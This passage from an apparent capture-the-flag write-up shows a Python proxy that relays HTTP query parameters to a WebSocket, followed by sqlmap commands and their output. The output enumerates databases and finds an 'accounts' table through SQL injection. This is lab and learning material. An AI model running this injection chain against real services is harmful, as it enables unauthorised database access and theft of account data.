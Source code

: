 ```python
	try:	
		payload = urlparse(self.path).query.split('=',1)[1]	
	except IndexError:	
		payload = False	
	if payload:	
		content = send_ws(payload)	
	else:	
		content = 'No parameters specified!'
	self.send_header("Content-type", content_type)
	self.end_headers()
	self.wfile.write(content.encode())
	return
	
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

This was our python proxy, which i modified to work in our case.

And now lets see if SQLMap can find something for us.

First we [[SQLMap#List databases | list databases with sqlmap]]

>Command
>```bash
>sqlmap -u 'http://localhost:8081/?id=' -p 'id' --batch --risk 3 --level 5 --dbs

```log
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

YEAAAA 🥳🥳 The SQL Injection worked and now we can dump the soccer_db.

Than we just [[SQLMap#List tables| list the tables]] from the *soccer_db* DB.

>Command
>```bash
>sqlmap -u 'http://localhost:8081/?id=' -p 'id' --batch --risk 3 --level 5 -D soccer_db  --tables

```log
[1 table]
+----------+
| accounts |
+----------+
```
